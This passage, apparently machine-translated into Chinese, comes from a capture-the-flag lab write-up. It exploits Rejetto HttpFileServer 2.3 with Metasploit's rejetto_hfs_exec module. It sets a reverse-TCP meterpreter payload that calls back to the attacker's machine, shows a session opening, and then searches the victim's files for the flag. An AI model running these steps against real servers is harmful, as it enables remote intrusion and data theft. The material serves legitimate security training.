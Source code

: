 `HttpFileServer httpd 2.3`版本信息指的是 Rejetto HTTP 文件服务器([Rejetto.com，n . d .](http://rejetto.com/hfs/))——显然指的是 2.3 版本。正如我将在下一小节中演示的，该服务容易受到远程命令执行漏洞的攻击。

## 剥削

我的下一步是启动 Metasploit 框架…

```
**└─$ sudo msfconsole**[... snip ...]=[ metasploit v6.1.26-dev ]
+ — — =[ 2194 exploits — 1162 auxiliary — 400 post ]
+ — — =[ 596 payloads — 45 encoders — 10 nops ]
+ — — =[ 9 evasion ]Metasploit tip: Search can apply complex filters such as 
search cve:2009 type:exploit, see all the filters 
with help search**msf6 >** 
```

…然后配置并启动漏洞利用:

```
**msf6 >** **use exploit/windows/http/rejetto_hfs_exec**
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
**msf6 exploit(windows/http/rejetto_hfs_exec) >** **set PAYLOAD windows/x64/meterpreter/reverse_tcp** PAYLOAD => windows/x64/meterpreter/reverse_tcp
**msf6 exploit(windows/http/rejetto_hfs_exec) >** **set RHOSTS <boot2root ip>**
RHOSTS => <boot2root ip>
**msf6 exploit(windows/http/rejetto_hfs_exec) >** **set RPORT 8080**
RPORT => 8080
**msf6 exploit(windows/http/rejetto_hfs_exec) >** **set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf6 exploit(windows/http/rejetto_hfs_exec)** > **set SRVHOST <attackbox ip>**
SRVHOST => <attackbox ip>
**msf6 exploit(windows/http/rejetto_hfs_exec) >** **exploit**[*] Started reverse TCP handler on <attackbox ip>:4444 
[*] Using URL: http://<attackbox ip>:8080/EFTPYjGK3Xe
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /EFTPYjGK3Xe
[*] Sending stage (175174 bytes) to <boot2root ip>
[*] Meterpreter session 1 opened (<attackbox ip>:4444 -> <boot2root ip>:49322 ) at [redacted]**meterpreter >**
```

现在我可以去拿旗子了。我首先列出了我所在的当前目录(Cmd。1)然后移动到当前用户的帐户文件夹(Cmd。2).然后，我搜索扩展名为`.txt`的文件(Cmd。3)找到一个有趣的文件，完整路径为:`c:\Users\bill\Desktop\user.txt`。最后，我只是转储了标志的文本文件(Cmd。4).

```
**[1] meterpreter >** **pwd**
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
**[2] meterpreter >** **cd C:\\Users\\bill
[3] meterpreter >** **search -f *.txt**
Found 59 results...
===================
Path    Size (bytes)     Modified (UTC)                                                                                                                                                          
----    ------------     --------------                                                                                               
c:\Program Files (x86)\IObit\Advanced SystemCare\Display_log.txt                                                                                                    586           [redacted] -0500
c:\Program Files (x86)\IObit\Advanced SystemCare\Update History.txt                                                                                                 8386          2016-07-27 17:09:38 -0400
[... snip ...]
c:\Users\bill\Desktop\user.txt                                                                                                                                      70            2019-09-27 08:42:38 -0400
[... snip ...]
**[4] meterpreter > cat C:\\Users\\bill\\Desktop\\user.txt**
```